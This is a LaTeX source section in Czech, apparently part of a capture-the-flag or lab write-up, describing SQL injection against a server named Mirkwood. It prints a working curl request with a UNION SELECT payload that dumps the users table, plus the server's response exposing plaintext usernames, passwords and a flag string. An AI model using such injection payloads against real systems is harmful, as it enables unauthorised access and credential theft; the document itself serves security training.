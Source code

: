 \documentclass{article}
\begin{document}
\section{Tajemství D}
\begin{itemize}
    \item \textbf{Úvod:} 
    Na serveru Mirkwood jsem provedla testování SQL injekce, abych získala citlivé informace z databáze. Cílem bylo získat přihlašovací údaje a identifikovat potenciální tajemství.

    \item \textbf{Testování SQL injekce:} 
    Použila jsem techniku SQL injekce k získání informací z databáze. Provedla jsem následující požadavek, který využívá SQL příkaz \texttt{UNION SELECT} pro sloučení výsledků dotazu na tabulku \texttt{users}. Tento dotaz umožnil získat uživatelská jména a hesla:
    \begin{verbatim}[language=bash]
    curl -v "http://10.89.1.159/list.php?id=-1%20UNION%20SELECT%201,username,
    password%20FROM%20users--"
    \end{verbatim}
    Tento požadavek využil zranitelnosti v aplikaci a umožnil přístup k citlivým údajům.

    \item \textbf{Výstup SQL injekce:}
    Po provedení injekce jsem obdržela odpověď serveru, která obsahovala následující údaje:
    \begin{quote}
    \begin{verbatim}
    <h2>Woodelf Items</h2><ul><li>{"0":1,"id":1,"1":"admin","name":
    "admin","2":"iloveyou","category":"iloveyou"}</li><li>{"0":1,"id":1,"1":"legolas"
    ,"name":
    "legolas","2":"expired","category":"expired"}</li><li>{"0":1,"id":1,"1":"thranduil"
    ,"name":
"thranduil","2":
"Tajemstvi_D_4182e9da3f669a396294d93df966c12a7a97e04e3b5147dd0ab654ce53e90395",
"category":"Tajemstvi_D_4182e9da3f669a396294d93df966c12a7a97e04e3b5147dd0ab654ce53e90395"}
</li></ul>
    \end{verbatim}
    \end{quote}
    Tento výstup obsahoval tajemství \texttt{Tajemstvi\_D} a přihlašovací \' udaje k tajemství B, které jsem dále využila (popsáno výše).

\end{itemize}
\end{document}

